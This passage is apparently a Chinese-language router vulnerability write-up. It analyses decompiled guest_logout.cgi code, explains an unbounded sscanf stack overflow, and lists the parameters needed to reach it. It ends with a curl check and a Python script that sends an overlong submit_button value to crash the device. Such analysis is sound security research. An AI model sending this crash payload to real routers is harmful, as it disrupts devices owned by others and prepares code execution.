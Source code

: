 可以看到修补漏洞后的版本少了一个sscanf

伪代码是这样的

```c
  v5 = (const char *)get_cgi("cmac");
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) )
    {
      if ( !strstr(v11, "status_guestnet.asp") )
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);
```

其中sscanf的条件`"%[^;];%*[^=]=%[^\n]"`里，% 表示选择，%* 表示过滤，中括号括起来的是类似正则的字符集

1. `%[^;]`：分号前的所有字符都要
2. `;%*[^=]`：分号后，等号前的字符都不要
3. `=%[^\n]`：等号后，换行符前的所有字符都要

也就是说，如果输入字符串”aaa;bbb=ccc\n”，最终会把”aaa”写入v29，”cccc”写入v28

这里的ccc并没有长度限制，可能造成栈溢出

故分析程序路径要到达这个sscanf得有三个参数且满足对应的要求：

1. cmac：mac地址格式
2. cip：ip地址格式
3. submit_button: 包含status_guestnet.asp

> 那么`guest_logout_cgi`函数对应的url路由是什么呢？很遗憾我并没有从程序中分析出来，感觉有可能是`init_cgi`这个函数设置的，但是继续交叉引用到父级函数就没有结果了，于是搜索字符串找到：`guest_logout.cgi`，估计是他，但是还是没有交叉引用分析出来。

```shell
curl -k -v https://192.168.1.1/guest_logout.cgi
```

测试可以访问`guest_logout.cgi`

[![img](https://p4.ssl.qhimg.com/t01d0f25665ec1544a7.jpg)](https://p4.ssl.qhimg.com/t01d0f25665ec1544a7.jpg)

之后可以发包测试或打断点调试，判断这个sscanf的参数是通过GET还是POST传递的

> 因为这里可能触发漏洞，所以最优的选择就是直接发包测试，如果程序崩了，则证明GET还是POST路径选对了，而且真的存在漏洞。不过就算程序看起来没崩，也不要灰心，因为这里要确定是否有Web程序的守护进程存在，如果存在守护进程则可能看不到打崩的效果了。

测试GET请求

```python
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}

requests.packages.urllib3.disable_warnings()
requests.get(url, data=payload, verify=False, timeout=1)
```
